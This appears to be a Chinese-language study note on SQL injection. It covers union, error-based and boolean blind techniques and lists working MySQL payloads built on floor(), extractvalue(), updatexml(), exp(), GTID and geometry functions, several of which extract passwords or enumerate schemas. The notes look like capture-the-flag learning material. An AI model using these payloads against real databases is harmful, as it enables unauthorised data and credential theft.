 ****# 注入类型
## union注入
- 前面的查询结果不为空，则返回两次查询的值
- 前面的查询结果为空，则只返回union查询的值
## 报错注入
### 报错手段
- `floor()`
	- `AND (SELECT 1 FROM (SELECT count(*),CONCAT(0x23,(SELECT `password` FROM flag LIMIT 1,2),0x23,FLOOR(RAND(0)*2)) AS x FROM information_schema.`COLUMNS` GROUP BY x) AS y);`
- `extractvalue()`
	- `extractvalue('XML_document','Xpath_string')`  输入的`Xpath_string`不对就会报错
	- **extractvalue函数一次只能查询32位长度，在爆表、列、值的时候三种方法**
		- 加上`limit x,1`逐一查询
			- `select 1,2,(extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'security' limit 0,1))));`
		- 用group_concat函数把查询结果分组聚合
			- `select 1,2,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name= 'users' ))));`
		- 用`substring()`函数截取
			- `select (extractvalue(1,concat(0x7e,substring(hex((select database())),1,32))));`
- `updatexml()`
	- `updatexml('XML_document','Xpath_string','New_value')` 和 `extractvalue()`一样
	- `select (updatexml(1,concat(0x7e,(database()),0x7e),1));`
- `exp()`
	- 输入数据大于706数据溢出报错
	- 进行嵌套查询的时候子查询出来的的结果是作为一个派生表来进行上一级的查询的，所以子查询的结果必须要有一个别名
	- `or exp(~(select * from (select (concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e))) as asd))`
- `GTID`
	- `gtid_subset()`
		- `OR gtid_subset(CONCAT(0x7e,(SELECT GROUP_CONCAT(`Password`) FROM flag),0x7e),1);`
	- `getid_subtract()`
		- `OR gtid_subtract(CONCAT(0x7e,(SELECT GROUP_CONCAT(`Password`) FROM flag),0x7e),1);`
- `geometrycollection()`
	- MYSQL无法用这样字符串画出图形,所以报错
	- `and geometrycollection((select * from(select * from (操作代码)a)b))`
- `multipoint()`
	- `select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));`
- `polygon()`
	- `select * from test where id=1 and polygon((select * from(select * from(select user())a)b));`
- `multipolygon()`
- `linestring()`
- `multilinestring()`

>`geometrycollection()`、`multipoint()`、`polygon()`、`linestring()`、`multilinestring()` 似乎要在mysql5.1才有用现在已经很鸡肋了

## 盲注
### 布尔盲注
#### 函数
- `left(string,n)` 查看前n个字符是否匹配
- `mid(column_name,start[,length])` 截取字符串一部分
	- `column_name`：必需，要提取字符的字段
	- `start`：必需，规定开始位置。
	- `length`：可选，要返回的字符数。如果省略，则`mid()`函数返回剩余文本
- `substr()`&`substring()`
	- `string substring(string, start, length)`
	- `string substr(string, start, length)`
- `regexp()`判断正则